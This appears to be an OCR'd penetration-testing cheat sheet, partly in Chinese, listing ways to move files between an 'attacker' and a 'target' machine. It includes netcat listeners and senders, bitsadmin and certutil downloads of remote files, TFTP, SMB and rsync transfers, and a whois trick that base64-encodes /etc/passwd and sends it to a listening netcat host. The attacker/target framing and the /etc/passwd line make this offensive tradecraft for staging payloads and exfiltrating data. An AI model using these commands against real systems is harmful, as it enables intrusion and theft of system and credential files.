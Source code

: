 NC 
attacker 
```
cat file | nc -l 1234
```
target
```
nc host_ip 1234 > file
```
FTP
```
ftp 127.0.0.1 username password get file exit
```
TFTP 
```
tftp -i host GET C:%homepath%file location_of_file_on_tftp_server
```
Bitsadmin 
```
bitsadmin /transfer n http://domain/file c:%homepath%file
```
Window 文件共享 
```
net use x: \127.0.0.1\share /user:example.comuserID myPassword
```
SCP 
本地到远程 
```
scp file user@host.com:/tmp
```
远程到本地 
```
scp user@host.com:/tmp file
```
rsync 
远程rsync服务器中拷贝文件到本地机 
```
rsync -av root@192.168.78.192::www /databack
```
本地机器拷贝文件到远程rsync服务器 
```
rsync -av /databack root@192.168.78.192::www
```
certutil.exe 
```
certutil.exe -urlcache -split -f http://site.com/file
```
copy
```
copy \\IP\ShareName\file.exe file.exe
```
WHOIS
接收端 Host B：
```
nc -vlnp 1337 | sed "s/ //g" | base64 -d 
```
发送端 Host A：
```
whois -h host_ip -p 1337 `cat /etc/passwd | base64`
```
